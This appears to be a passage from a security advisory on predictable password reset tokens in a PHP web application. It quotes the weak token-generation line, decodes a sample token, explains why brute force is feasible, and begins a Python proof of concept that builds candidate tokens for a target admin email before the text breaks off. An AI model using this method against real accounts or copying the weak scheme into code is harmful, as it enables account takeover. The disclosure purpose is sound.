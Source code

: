 ## Technical Analysis

### Token Structure Analysis
The password reset tokens appear to follow a predictable pattern:

```
Base64(user_email + template_string + timestamp)
```

Example vulnerable token generation code:
```php
// From Crud_model.php:3578
$verification_code = str_replace('=', '', base64_encode($email . '_Uh6#@#6hU_' . random_int(111111, 9999999)));
```

Example vulnerable token structure:
```
dXNlckB0ZXN0LmNvbV9VaDYjQCM2aFVfMTIzNDU2
```

When decoded:
```bash
echo "dXNlckB0ZXN0LmNvbV9VaDYjQCM2aFVfMTIzNDU2" | base64 -d
# Output: user@test.com_Uh6#@#6hU_123456
```

### Brute Force Feasibility
The predictable structure allows for efficient brute force attacks:

1. **Known email addresses** (from user enumeration)
2. **Predictable template strings** (limited variations)
3. **Timestamp patterns** (sequential or time-based)
4. **No rate limiting** on verification attempts

## Proof of Concept

### Token Generation Pattern Analysis
```python
import base64
import itertools
import requests
import time

def generate_possible_tokens(email, timestamp_range):
    """Generate possible password reset tokens"""
    templates = [
        "_Uh6#@#6hU_",
        "_template_",
        "_reset_",
        # Add other discovered patterns
    ]
    
    tokens = []
    for template in templates:
        for ts in timestamp_range:
            token_data = f"{email}{template}{ts}"
            token = base64.b64encode(token_data.encode()).decode()
            tokens.append(token)
    
    return tokens

# Target email (from user enumeration)
target_email = "admin@target.com"

```
